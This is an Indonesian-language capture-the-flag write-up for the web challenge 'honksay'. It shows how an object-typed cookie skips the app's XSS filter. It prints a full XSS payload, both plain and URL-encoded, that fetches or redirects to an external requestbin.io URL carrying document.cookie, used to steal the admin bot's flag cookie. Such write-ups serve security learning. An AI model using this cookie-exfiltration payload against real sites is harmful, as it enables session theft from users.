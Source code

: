 # honksay
XSS + JS prototype polution
Pertama pelu kita ketahui, bahwa bot menyimpan flag.
bisa kita lihat di goose.js

```js
...snip...
const FLAG = process.env.FLAG || "maple{fake}";
...snip...
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
```

Ada sesuatu yang menarik mata app.js, dimana jika typeof dari honk merupakan objek maka tidak akan di parse oleh funcsi clean (fungsi yang ngeparse xss, xss module).

```js
...snip...
        if (typeof (req.cookies.honk) === 'object') {
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk),
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
...snip...
```

Bisa kita lihat lagi di app.js-nya, disitu ada  get request yang mengarah ke /changehonk . Yes, disini merupakan entrance, dari xss nya. Tapi wait, dia hanya bisa mengubah cookie honk saja, benarkah???

```js
...snip...
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
...snip...
```

Disini JS prototype polution mengambil peran, dimana kita bisa mengubahnya menjadi objek dengan menginputkan get request ke /changehonk, dan mengambil alih output yang akan di keluarkan message dan amountoftimeshonked.

```js
...snip...
app.get('/', (req, res) => {
    if (req.cookies.honk) {
        //construct object
        let finalhonk = {};
        fs.appendFileSync("./log.txt", "\ntypeof: " + typeof (req.cookies.honk + "\n")) // debug
        if (typeof (req.cookies.honk) === 'object') {
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk),
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
    }
...snip...
```

```
Payload
get request to:
http://localhost:9988/changehonk
parameter 1:
newhonk[message]=asdasd
parameter 2:
newhonk[amountoftimeshonked]=<script>fetch("https://requestbin.io/1ejfgqq1?c=" + document.cookie);</script>
```

Bisa dilihat di atas, karna flag memiliki domain localhost maka kita hanya bisa mendapatkan flag dari domain localhost. Kita bisa mendapatkan informas port dari Dockerfile-nya
```Dockerfile
# Expose port
EXPOSE 9988
```

```
Final payload:
http://localhost:9988/changehonk?newhonk[message]=asdasd&newhonk[amountoftimeshonked]=%3Cscript%3Edocument%2Elocation%3D%22https%3A%2F%2Frequestbin%2Eio%2F1ejfgqq1%3Fc%3D%22%20%2B%20document%2Ecookie%3B%3C%2Fscript%3E
```


Tinggal kita post saja payloadnya ke /report yang ada di main page, dan kita akan mendapatkan flagnya di webhook kita (disini saya menggunakan requestbin).